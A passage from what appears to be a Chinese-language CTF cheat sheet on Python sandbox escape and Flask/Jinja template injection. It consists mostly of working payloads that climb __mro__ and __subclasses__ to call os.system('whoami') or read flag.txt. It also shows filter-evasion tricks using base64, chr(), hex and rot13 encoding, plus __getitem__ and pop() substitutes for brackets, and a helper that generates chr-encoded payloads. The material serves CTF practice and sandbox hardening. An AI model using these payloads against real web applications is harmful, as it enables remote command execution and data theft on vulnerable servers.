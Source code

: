 ```python
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['o'+'s'].__dict__['sys'+'tem']('whoami')

''.__class__.__mro__[-1].__subclasses__()[40]('fl'+'ag.txt').read()
```

### 编码

本质上还是对字符串进行操作, 可以配合 `__dict__` 从而对函数名进行编码

```python
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['b3M='.decode('base64')].__dict__['c3lzdGVt'.decode('base64')]('d2hvYW1p'.decode('base64')) # os.system('whoami')

''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__[chr(111)+chr(115)].__dict__[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105)) # os.system('whoami')
```

flask 环境下 chr 需要在 `__builtins__` 里面找

```python
{% set chr=''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
```

生成 chr payload

```python
def toChr(s):
    l = []
    for i in s:
        l.append('chr(' + str(ord(i)) + ')')
    return '+'.join(l)
```

另外还有十六进制, rot13 等

```Python
'68656c6c6f'.decode('hex') # hello
'uryyb'.decode('rot13') # hello
```

### 过滤 []

使用 `__getitem__` 方法

```python
''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(72).__init__.__globals__.__getitem__('os').system('whoami')
```

`pop()` 也能代替, 但是只有 list 才有这个功能

```python
''.__class__.__mro__.__getitem__(-1).__subclasses__().pop(72).__init__.__globals__.__getitem__('os').system('whoami')
```
